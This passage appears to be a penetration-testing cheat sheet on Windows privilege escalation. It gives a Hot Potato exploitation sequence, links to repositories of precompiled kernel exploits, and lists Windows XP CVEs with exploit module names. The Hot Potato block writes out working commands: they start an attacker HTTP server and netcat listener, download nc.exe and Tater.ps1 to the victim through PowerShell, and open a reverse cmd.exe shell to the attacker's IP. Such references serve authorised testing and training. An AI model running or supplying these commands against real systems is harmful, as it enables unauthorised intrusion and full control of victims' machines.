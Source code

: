 - Hot potato
  - Exploitation
    - 
      ```
      # Attacker
      sudo python -m SimpleHTTPServer 80
      sudo nc -lvp <PORT>

      # Victim
      powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/nc.exe', '.\nc.exe')
      powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/Tater.ps1.exe', '.\Tater.ps1.exe')
      powershell -exec bypass -command "& { Import-Module .\Tater.ps1; Invoke-Tater -Trigger 1 -Command '.\nc.exe <IP> <PORT> -e cmd.exe' }"
      ```

##### CVE
- Already compiled exploit
  - <https://github.com/SecWiki/windows-kernel-exploits>
  - <https://github.com/abatchy17/WindowsExploits>
  - <https://github.com/cyber-prog0x/PoC-Bank>

- Windows XP
- 
  ```
  CVE:Description
  CVE-2002-1214:ms02_063_pptp_dos - exploits a kernel based overflow when sending abnormal PPTP Control Data packets - code execution, DoS
  CVE-2003-0352:ms03_026_dcom - exploits a stack buffer overflow in the RPCSS service
  CVE-2003-0533:MS04-011 - ms04_011_lsass - exploits a stack buffer overflow in the LSASS service
  CVE-2003-0719:ms04_011_pct - exploits a buffer overflow in the Microsoft Windows SSL PCT protocol stack - Private communication target overflow
  CVE-2003-0812:ms03_049_netapi - exploits a stack buffer overflow in the NetApi32
  CVE-2003-0818:ms04_007_killbill - vulnerability in the bit string decoding code in the Microsoft ASN.1 library
  CVE-2003-0822:ms03_051_fp30reg_chunked - exploit for the chunked encoding buffer overflow described in MS03-051
  CVE-2004-0206:ms04_031_netdde - exploits a stack buffer overflow in the NetDDE service
  CVE-2010-3138:EXPLOIT-DB 14765 - Untrusted search path vulnerability - allows local users to gain privileges via a Trojan horse
  CVE-2010-3147:EXPLOIT-DB 14745 - Untrusted search path vulnerability in wab.exe - allows local users to gain privileges via a Trojan horse
  CVE-2010-3970:ms11_006_createsizeddibsection - exploits a stack-based buffer overflow in thumbnails within .MIC files - code execution
  CVE-2011-1345:Internet Explorer does not properly handle objects in memory - allows remote execution of code via object
  CVE-2011-5046:EXPLOIT-DB 18275 - GDI in windows does not properly validate user-mode input - allows remote code execution
  CVE-2012-4349:Unquoted windows search path - Windows provides the capability of including spaces in path names - can be root
  ```
